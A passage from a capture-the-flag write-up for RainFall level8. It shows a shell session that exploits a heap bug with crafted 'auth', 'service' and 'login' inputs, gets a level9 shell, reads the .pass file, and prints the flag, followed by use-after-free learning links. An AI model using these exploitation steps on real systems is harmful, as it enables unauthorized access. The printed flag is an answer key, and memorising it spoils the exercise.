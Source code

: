     login
    $ cat /home/user/level9/.pass
    c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
    $ 
    ```
* or :

    ```shell
    level8@RainFall:~$ ./level8 
    (nil), (nil) 
    auth allali
    0x804a008, (nil) 
    service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    0x804a008, 0x804a018 
    login
    $ whoami
    level9
    $ 
    ```
**Flag : `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a`**

---

### Ressources :

- **_[[Video] : The Heap: How do use-after-free exploits work? - bin 0x16](https://youtu.be/ZHghwsTRyzQ?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)_**
- **_[Exercice in PROTOSTAR](https://exploit.education/protostar/heap-two/)_**

